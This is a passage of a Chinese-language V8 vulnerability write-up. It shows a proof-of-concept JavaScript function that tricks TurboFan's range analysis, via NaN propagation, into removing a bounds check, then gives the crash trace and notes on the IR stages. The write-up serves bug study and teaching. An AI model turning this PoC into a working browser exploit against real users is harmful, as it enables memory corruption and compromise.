 通过调试，我们发现，生成的JIT代码是没有问题的，确实是按照`NaN`来运算，`bug`仅出现在`IR`分析阶段。接下来，我们继续构造

```
function opt(index) `{`
    var a = [1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
    var x = -Infinity;
    var i = 0;
    for (; i &lt; 1; i += x) `{`
        if (i == -Infinity) x = +Infinity;
    `}`
    //compiler:Range(1,INF)
    //reality:NaN
    var x = Math.max(i,1); //
    //compiler:Range(-INF,-1)
    //reality:NaN
    x = -x; //
    //compiler:Range(-2,-1)
    //reality:NaN
    x = Math.max(x,-2);
    //compiler:Range(-2,-1)
    //reality:0
    x &gt;&gt;= 0; //
    //compiler:Range(0,1)
    //reality:2
    x += 2;
    //compiler:Range(0,7)
    //reality:Range(0,7)
    index &amp;= 0x7;
    //compiler:Range(0,7)
    //reality:Range(0,14)
    index *= x;
    return a[index];
`}`
```

这样可以使得编译器的估测值比真实运算结果小，由此发生溢出。运行发现程序直接崩溃

```
root@ubuntu:~/Desktop/v8/out.gn/x64.bug# ./d8 poc.js --trace-turbo --allow-natives-syntax
Concurrent recompilation has been disabled for tracing.
undefined
---------------------------------------------------
Begin compiling method opt using TurboFan
---------------------------------------------------
Finished compiling method opt using TurboFan
Trace/breakpoint trap (core dumped)
```

分析IR图，`checkbounds`的`Range(0,7)`在数组长度之内，在后续，该`checkbounds`会被移除

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010adfa6d49da0f250.png)

在`V8.TFEffectLinearization 369`阶段，已经没有了边界检查，因此也可以溢出
